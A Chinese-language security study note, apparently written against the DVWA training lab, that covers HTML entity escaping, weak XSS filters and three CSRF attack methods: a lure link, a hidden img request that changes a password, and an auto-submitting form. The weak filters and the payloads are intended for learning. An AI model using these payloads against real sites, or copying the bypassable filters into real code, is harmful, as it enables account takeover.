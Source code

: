 ```
htmlspecialchars($str, ENT_QUOTES)  # ENT_QUOTES -- 单引号也转换
将一些特殊字符转换为HTML实体字符
显示	实体名字	实体编号
<	    &lt;	    &#60;
>	    &gt;	    &#62;
&	    &amp;	    &#38;
“	    &quot;	  &#34;
‘	    N/A	      &#39;

与其类型的还有
htmlentities($str, ENT_QUOTES) # 与htmlspecialchars不同的是会对无法识别的中文字符也转换


自定义的XSS filter

待完善
```
`str_replace( '<script>', '', $_GET[ 'name' ] );`
`preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET[ 'name' ] )`


<br>
## CSRF
CSRF攻击其实就是直接利用你的身份去做一些事情,XSS不同的是拿到你的身份
例如一个注册界面，如果我伪造一个注册请求，并且诱导管理员去发送这个请求(管理员的COOKIE就是身份验证)，那么就利用了管理员的身份去完成了注册请求。

### 利用方式
### 第一种
直接设置一个链接，让受害人点击`<a href="xxx">点击打开红包</a>`


### 第二种
IMG标签会自动发送请求
`<img src="http://10.128.2.247/DVWA/vulnerabilities/csrf/?password_new=hack&password_conf=hack&Change=Change#" border="0" style="display:none;"/>`

### 第三种
自动提交脚本页面代码
```html
<script>
function s(){
        document.getElementById('form').submit();
}
</script>
<body onload=s()>
<form action="http://10.128.2.247/DVWA/vulnerabilities/csrf/" method="get" id="form">
<input type='hidden' name="password_new" value="123123">
<input type='hidden' name="password_conf" value="123123">
<input type='hidden' name="Change" value="Change">
</form>
</body>
```
